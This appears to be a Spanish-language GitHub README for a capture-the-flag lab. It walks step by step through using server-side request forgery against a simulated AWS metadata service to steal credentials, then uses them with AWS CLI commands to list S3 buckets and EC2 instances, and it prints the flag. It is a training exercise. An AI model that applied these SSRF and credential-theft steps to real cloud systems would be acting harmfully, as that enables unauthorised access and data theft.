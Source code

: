 # ssfr-aws-lab

El laboratorio se ejecuta con 
  ```bash
docker-compose up -d 
  ```
La bandera es el nombre de la instancia :D 

SINO QUIERES SPOILEARTE NO LEAS MAS ABAJO. 

---

### **1. Reconocimiento**

El pentester comienza analizando la aplicación para identificar posibles vulnerabilidades.

#### **Paso 1: Analizar la aplicación**
- Accede a la aplicación en `http://34.51.13.20:8080/`.
- Observa que hay un formulario que permite ingresar una URL y verificar su contenido.

#### **Paso 2: Identificar la vulnerabilidad SSRF**
- Sospecha que la aplicación puede ser vulnerable a **Server-Side Request Forgery (SSRF)** porque toma una URL ingresada por el usuario y hace una solicitud HTTP a esa URL.
- Para confirmar, intenta acceder a recursos internos, como:
  - `http://localhost:8080` (la propia aplicación).
  - `http://127.0.0.1:8080` (alternativa a localhost).
  - `http://34.51.13.20:8080/latest/meta-data/` (el servicio de metadata simulado en la aplicación).

#### **Paso 3: Confirmar el SSRF**
- Ingresa la URL `http://34.51.13.20:8080/latest/meta-data/` en el formulario.
- Si la aplicación devuelve información del servicio de metadata de AWS, confirma que es vulnerable a SSRF.

---

### **2. Explotación**

Una vez confirmada la vulnerabilidad, el pentester explota el SSRF para obtener credenciales de AWS.

#### **Paso 1: Obtener credenciales de AWS**
- Ingresa la URL del servicio de metadata de AWS en el formulario:
  ```
  http://34.51.13.20:8080/latest/meta-data/iam/security-credentials/
  ```
- La aplicación devuelve las credenciales en formato JSON:
  ```json
  {
      "AccessKeyId": "test",
      "SecretAccessKey": "test",
      "Token": "test",
      "Region": "us-east-1"
  }
  ```

#### **Paso 2: Configurar las credenciales**
- Usa las credenciales obtenidas para configurar el entorno de AWS CLI:
  ```bash
  export AWS_ACCESS_KEY_ID=test
  export AWS_SECRET_ACCESS_KEY=test
  export AWS_SESSION_TOKEN=test
  export AWS_DEFAULT_REGION=us-east-1
  ```

---

### **3. Post-Explotación**

Con las credenciales en mano puedes interactúa con los servicios de AWS (LocalStack) para encontrar la bandera.

#### **Paso 1: Listar los buckets de S3**
- Usa el siguiente comando para listar los buckets en S3:
  ```bash
  aws --endpoint-url=http://34.51.13.20:4566 s3 ls
  ```
- Observa que hay un bucket llamado `secret-bucket-challenge`.

#### **Paso 2: Listar los archivos en el bucket**
- Usa el siguiente comando para listar los archivos en el bucket:
  ```bash
  aws --endpoint-url=http://34.51.13.20:4566 s3 ls s3://secret-bucket-challenge/
  ```
- Observa que hay un archivo llamado `flag.txt`.

### **Paso 3: Listar las instancias EC2**  

1. Ver las instancias EC2 ejecutando el siguiente comando:  

   ```bash
   aws --endpoint-url=http://34.51.13.20:4566 ec2 describe-instances \
     --query "Reservations[*].Instances[*].Tags[?Key=='Name'].Value" \
     --output text
   ```

2. La bandera es el nombre de la instancia encontrada:  

   ```
   FEMEC_Pentester_Cloud_AHAU
   ```

---


By M0r0k0
